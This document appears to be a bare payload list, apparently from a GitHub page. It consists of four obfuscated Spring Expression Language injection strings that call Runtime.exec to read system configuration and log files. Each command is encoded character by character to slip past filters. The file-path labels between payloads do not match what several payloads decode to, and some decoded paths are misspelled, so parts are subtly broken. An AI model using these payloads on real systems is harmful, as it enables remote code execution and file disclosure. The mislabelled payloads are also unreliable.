 ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102))).getInputStream())}

/etc/ntp.conf

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102))).getInputStream())} 

var/log/apache/access.log

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(103))).getInputStream())}

/var/log/httpd/error_log 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(103))).getInputStream())}
